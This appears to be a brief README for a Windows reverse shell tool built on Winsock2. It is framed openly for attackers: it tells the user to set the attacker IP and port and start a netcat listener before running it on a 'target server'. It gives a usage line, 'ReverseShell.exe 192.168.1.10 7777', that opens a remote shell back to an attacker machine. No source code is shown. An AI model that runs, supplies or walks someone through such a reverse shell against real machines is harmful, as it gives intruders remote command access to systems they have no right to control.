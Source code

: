 # Basic-Reverse-shell
A basic reverse shell on Windows using socket programming with Win32 API. It is used Winsock2 DLL to create socket and make a reverse connection from server to attacker machine. Make sure to change the attacker IP, port and turn on netcat listener before run it on target server

Usage:
```ReverseShell.exe <attacker's IP> <port>
Example:
```ReverseShell.exe 192.168.1.10 7777```
